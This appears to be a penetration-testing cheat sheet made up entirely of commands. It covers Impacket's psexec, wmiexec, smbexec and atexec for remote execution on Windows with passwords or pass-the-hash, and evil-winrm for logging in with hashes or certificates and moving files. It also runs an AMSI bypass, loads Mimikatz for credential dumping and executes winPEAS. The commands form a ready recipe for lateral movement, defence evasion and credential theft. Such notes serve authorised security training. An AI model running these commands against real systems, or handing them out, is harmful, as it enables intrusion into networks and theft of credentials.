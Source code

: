 ```bash
psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

wmiexec.py test.local/john:password123@10.10.10.1
wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

smbexec.py test.local/john:password123@10.10.10.1
smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

atexec.py test.local/john:password123@10.10.10.1 <command>
atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```

## Evil-Winrm

```bash
##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
